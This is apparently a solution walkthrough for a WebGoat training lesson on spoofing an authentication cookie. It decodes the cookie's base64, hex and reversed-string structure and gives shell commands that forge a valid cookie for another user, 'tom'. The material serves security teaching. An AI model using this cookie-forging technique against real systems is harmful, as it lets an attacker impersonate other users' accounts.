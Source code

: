 = Spoofing an Authentication Cookie

== Solution

Some standard Linux tools have been used on this solution; other kind of tools -like online tools- can be used and the same results should be obtained.

=== Analysis and reversing

Inspect the webgoat user spoof_auth cookie value:

[source, text]
----
NjM3OTRhNGY0ODRiNTQ0OTU3NDU3NDYxNmY2NzYyNjU3Nw==
----

It look like a base64 encoded text.

Decoding the base64 text:

[source, sh]
----
echo NjM3OTRhNGY0ODRiNTQ0OTU3NDU3NDYxNmY2NzYyNjU3Nw== | base64 -d
63794a4f484b5449574574616f67626577
----

Now, it look like a hexadecimal encoded text.

Hexadecimal text decoding:

[source, sh]
----
echo 63794a4f484b5449574574616f67626577 | xxd -p -r
cyJOHKTIWEtaogbew
----

Now, reverse the text:

[source, text]
----
webgoatEWITKHOJyc
----

We can see the user name with some random text appended. If we request some more different cookies for the same user, we will observe that the cookie generation appends random text of ten characters together with the user name, after it reverses the whole string and encodes it as hexadecimal and base64 respectively.

=== Attacking the system

Let's see how to forge our authentication cookie for tom.

Our initial string will be the user name and a random text of ten characters.

[source,text]
----
tomAAAAAAAAAA
----

Reverse it:

[source, text]
----
AAAAAAAAAAmot
----

Now, encode the text to hexadecimal:

[source,text]
----
# warn: do not encode any whitespace or new line character
echo -n AAAAAAAAAAmot | xxd -ps
414141414141414141416d6f74
----

Encode to base64:

[source,text]
----
# warn: do not encode any whitespace or new line character
echo -n 414141414141414141416d6f74 | base64
NDE0MTQxNDE0MTQxNDE0MTQxNDE2ZDZmNzQ=
----

The spoof_auth cookie value is:

[source,text]
----
NDE0MTQxNDE0MTQxNDE0MTQxNDE2ZDZmNzQ=
----

Finally, send the cookie to the system using any method that you prefer; OWASP ZAP, curl, the browser developer tools, etc.
